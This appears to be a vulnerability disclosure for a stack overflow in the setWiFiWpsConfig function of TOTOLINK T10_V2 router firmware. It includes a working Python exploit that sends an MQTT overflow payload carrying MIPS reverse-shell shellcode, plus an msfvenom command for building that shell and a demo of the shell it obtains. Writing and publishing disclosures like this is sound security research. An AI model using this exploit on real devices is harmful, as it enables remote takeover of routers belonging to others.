 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36 <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setWiFiWpsConfig**. Attackers can send dirty data by mqtt packet into parameter **pin** to control the return address and execute shellcode. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/wps.so** <br>

In the function **setWiFiWpsConfig**, the content obtained by program through parameter **pin** given by MQTT data packet is passed to variable **v11**. Then, the variable **v11** will copy to the variable **v22**, however,**v22** is on the stack,but there isn't any length check of **v11**.So we can set **wscMode** = **1** and **wscPinMode** = **1** to execute **strncpy**,and set the length of **pin's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/0.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **pin** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

pay = "a"*60 + "\x44\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setWiFiWpsConfig',payload='{"topicurl":"setting/setWiFiWpsConfig","wifiIdx":"0","wscMode":"1","wscPinMode":"1","pin":"'+pay+'"}'+'bbbbb'+buf)
```
**PS:**
The offset maybe different in each device. <br>
**\x44\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
sfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========
Because of Lazy binding mechanism，so we can send some short dirty data at first, then execute our exploit.<br>

Get the reverse shell!
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/1.jpg)





    
    

  
